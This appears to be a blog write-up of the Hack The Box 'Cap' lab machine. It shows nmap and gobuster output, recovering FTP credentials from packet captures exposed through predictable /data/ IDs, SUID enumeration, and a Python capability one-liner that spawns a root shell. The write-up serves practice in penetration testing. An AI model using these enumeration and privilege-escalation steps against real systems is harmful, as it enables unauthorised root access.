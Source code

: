 ```yaml
---
layout: post
title: writeup
subtitle: Hack the box Cap machine writeup
category: writeup
thumbnail-img: /assets/img/writeup/HTB/cap/result.png
tags: [writeup, hackthebox, cap, linux]
author: Hong
---
```

![result](/assets/img/writeup/HTB/cap/result.png)
# nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```
# gobuster
```
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17362]
/netstat              (Status: 200) [Size: 28308]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/2]
```
nothing special with gobuster..  
But I noticed the directory path in /data/ changes with ID.  
For example, I downloaded pcap files for /data/1 and /data/2.  
# wireshark
I looked up /data/0 and downloaded the packet.  
I found the user credentials in FTP stream.  
![wireshark](/assets/img/writeup/HTB/cap/wireshark.png)
**nathan:Buck3tH4TF0RM3!**  
I logged in to the FTP service using the credentials and got the user flag.  
And since the SSH also uses the same password, I moved to SSH.  
# SUID enum
I couldn't get information from `sudo -l`  
I searched for SUID files like below.  
```
nathan@cap:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```
I went through them, but ended up with fruitless result.  
I decided to use a tool here.  
# python
After executing linPeas in the target machine, I found it has a python capability problem.  
[python capability](https://gtfobins.github.io/gtfobins/python/#capabilities) 

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
The root shell will be opened with the command above.

# lesson learned
- capability problem can be easily solved by referencing gtfobins.
- linpeas searches for misconfigurations. However, it cannot be used in OSCP exam. [Check this](https://www.reddit.com/r/oscp/comments/mw4idk/heads_up_dont_use_linpeas_on_the_exam/)